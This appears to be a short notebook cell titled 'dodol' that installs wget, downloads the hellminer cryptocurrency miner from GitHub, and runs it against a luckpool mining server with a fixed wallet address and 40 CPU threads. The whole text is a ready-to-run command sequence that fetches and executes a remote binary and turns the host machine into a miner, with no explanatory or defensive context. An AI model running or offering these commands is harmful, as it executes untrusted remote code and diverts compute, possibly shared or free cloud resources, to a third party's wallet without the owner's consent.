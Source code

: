 # dodol
!sudo apt-get update -y !sudo apt-get install -y !sudo apt install wget !wget https://github.com/hellcatz/luckpool/raw/master/miners/hellminer_cpu_linux.tar.gz !tar xf hellminer_cpu_linux.tar.gz !./hellminer -c stratum+tcp://ap.luckpool.net:3956#xnsub -u RGqoi4RmkwXosmE3X31vaQh5wkSF6KnP5Y.gogo1 -p x --cpu 40
